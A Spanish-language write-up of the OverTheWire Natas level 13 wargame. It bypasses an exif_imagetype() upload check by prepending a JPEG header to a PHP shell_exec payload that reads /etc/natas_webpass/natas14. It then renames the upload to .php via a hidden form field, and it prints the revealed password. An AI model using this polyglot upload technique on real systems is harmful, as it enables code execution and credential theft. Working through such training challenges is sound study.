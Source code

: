 ```yaml
---
title: Natas-13
published: true
---
```


En este reto, comprueba si el fichero que se sube es una imagen.jpg. Para ello utiliza la función exif_imagetype() , dicha función comprueba si la cabecera del fichero es una imagen. 
Para saltarnos este obstáculo, podemos modificar el fichero fuente de una imagen, dejar la primera línea y le insertamos código php de la siguiente manera:

```
ÿØÿà JFIF  ` `  ÿÛ C
<?php $output = shell_exec('cat /etc/natas_webpass/natas14'); var_dump($output); ?>
```

Si guardamos la modificación y subimos la imagen, no ejecutará el código php ya que el código fuente lo guardará en un formato jpg.
Para poder subir el fichero en un formato php, modificamos el código fuente html en el campo value así:

```html
<div id="content">
For security reasons, we now only accept image files!<br/><br/>

<form enctype="multipart/form-data" action="index.php" method="POST">
<input type="hidden" name="MAX_FILE_SIZE" value="1000" />
<input type="hidden" name="filename" value="tzp8ecx2ff.jpg" /> <!-- modificamos la extensión a tzp8ecx2ff.php -->
Choose a JPEG to upload (max 1KB):<br/>
<input name="uploadedfile" type="file" /><br />
<input type="submit" value="Upload File" />
</form>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>

```

La salida al subir "la imagen"

```html
<body>
<h1>natas13</h1>
<div id="content">
For security reasons, we now only accept image files!<br/><br/>

The file <a href="upload/9ro0m0gtb6.php">upload/9ro0m0gtb6.php</a> has been uploaded<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

Como podemos ver, ha subido la imagen en formato php, si hacemos clic en el enlace nos ejecutará el código php que hemos insertado en el fichero que hemos subido.

```
����JFIF``��C   string(33) "Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1 " 
```


```    
natas14:Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1
```

[Volver al archivo](archive)
